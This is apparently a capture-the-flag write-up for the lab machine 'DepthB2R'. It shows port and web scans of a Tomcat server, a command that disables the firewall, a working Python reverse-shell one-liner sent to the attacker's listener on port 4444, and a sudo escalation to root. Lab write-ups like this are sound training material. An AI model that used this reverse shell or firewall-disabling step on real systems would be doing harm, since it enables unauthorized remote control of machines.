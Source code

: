 ```yaml
---
title: DepthB2R
categories: [Proving Grounds Play]
tags: [Firewall Disable, Recon, nikto, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  DepthB2R Machine 🖥️
---
```



### Lets check the IP address → 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled.png)

```bash
IP : 10.0.2.44
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.44
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 11:29 IST
Nmap scan report for 10.0.2.44
Host is up (0.00079s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
MAC Address: 08:00:27:FC:6B:6D (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%201.png)

Now after directory traversal I got these files and directories →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%202.png)

Now lets load the directory /manager/ ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%203.png)

Now while nikto scan I got a file > `test.jsp` →

```bash
Nikto.txt
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ nikto -h http://10.0.2.44:8080/ -o nikto.txt -C all
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.44
+ Target Hostname:    10.0.2.44
+ Target Port:        8080
+ Start Time:         2023-05-04 11:51:21 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 26792 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2023-05-04 11:53:28 (GMT5.5) (127 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%205.png)

Now lets see inside the home which user is there →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%206.png)

> User : bill , So lets disable the firewall so that I can execute my reverse shell command through ssh.
> 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%207.png)

command : `sudo ufw disable` to disable the firewall but I have to use ssh bill@localhost first so that it can be executed .

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%208.png)

Now lets start the listener port 4444 with nc and then execute the payload for reverse shell .

```bash
payload :
ssh bill@localhost python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

In response I got this ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%209.png)

Lets see how bill can lead us to root →

```bash
bill@b2r:~$ sudo -l
sudo -l
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on b2r:
    (ALL : ALL) NOPASSWD: ALL
bill@b2r:~$
```

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%2010.png)

Now I am root →

```bash
root@b2r:/root# cat flag
cat flag
flag{WellThatWasEasy}
root@b2r:/root#
```